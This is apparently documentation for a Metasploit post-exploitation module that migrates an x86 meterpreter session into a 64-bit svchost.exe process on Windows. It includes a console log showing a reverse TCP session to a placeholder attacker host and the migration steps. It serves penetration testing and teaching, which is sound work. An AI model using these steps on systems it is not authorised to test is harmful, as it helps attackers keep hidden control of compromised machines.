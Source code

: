 ## Creating A Testing Environment

To use this module you need an x86 executable type meterpreter on a x64 windows machine.

This module has been tested against:

  1. Windows 10.
  2. Windows 7.
  3. Windows Server 2008R2

This module was not tested against, but may work against:

  1. Other versions of Windows that are x64.

## Options

- #### EXE
    The executable to start and migrate into. Default: `C:\windows\sysnative\svchost.exe`

- #### FALLBACK
    If the selected migration executable does not exist, fallback to a sysnative file. Default: `true`

- #### IGNORE_SYSTEM
    Migrate even if you have SYSTEM privileges. Default: `true`


### Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session with an executable meterpreter via whatever method
  3. Do: `use post/windows/manage/archmigrate`
  4. Do: `set session #`
  5. Do: `run`

## Scenarios

### Windows 10 x64

```
    msf exploit(handler) > run

    [*] Started reverse TCP handler on <MSF_IP>:4567
    [*] Starting the payload handler...
    [*] Sending stage (957487 bytes) to <Win10x64_IP>
    [*] Meterpreter session 1 opened (<MSF_IP>:4567 -> <Win10x64_IP>:50917) at 2017-03-22 11:43:42 -0500

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    meterpreter > background
    [*] Backgrounding session 1...
    msf exploit(handler) > use post/windows/manage/archmigrate
    msf post(archmigrate) > set session 1
    session => 1
    msf post(archmigrate) > run

    [*] The meterpreter is not the same architecture as the OS! Upgrading!
    [*] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] Got pid 1772
    [*] Migrating..
    [+] Success!
    [*] Post module execution completed
    msf post(archmigrate) > sessions -l

    Active sessions
    ===============

      Id  Type                     Information                               Connection
      --  ----                     -----------                               ----------
      1   meterpreter x64/windows  DESKTOP-SO4MCA3\tmoose @ DESKTOP-SO4MCA3  <MSF_IP>:4567 -> <Win10x64_IP>:50917 (<Win10x64_IP>)

    msf post(archmigrate) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > sysinfo
    Computer        : DESKTOP-SO4MCA3
    OS              : Windows 10 (Build 14393).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x64/windows
```
